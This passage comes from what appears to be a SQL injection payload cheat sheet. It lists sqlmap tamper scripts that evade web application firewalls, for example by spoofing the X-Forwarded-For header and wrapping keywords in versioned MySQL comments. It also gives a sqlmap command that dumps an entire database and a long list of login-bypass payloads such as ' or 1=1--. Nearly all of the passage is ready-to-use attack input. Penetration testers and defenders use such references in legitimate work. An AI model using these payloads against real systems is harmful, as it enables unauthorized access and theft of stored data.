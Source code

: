 | unionalltounion.py           | Replaces UNION ALL SELECT with UNION SELECT                                                                                                        |
| unmagicquotes.py             | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work)                             |
| uppercase.py                 | Replaces each keyword character with upper case value 'INSERT'                                                                                     |
| varnish.py                   | Append a HTTP header 'X-originating-IP'                                                                                                            |
| versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment                                                                                    |
| versionedmorekeywords.py     | Encloses each keyword with versioned MySQL comment                                                                                                 |
| xforwardedfor.py             | Append a fake HTTP header 'X-Forwarded-For'                                                                                                        |

### SQLmap without SQL injection

You can use SQLmap to access a database via its port instead of a URL.

```ps1
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all
```

## Authentication bypass

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
```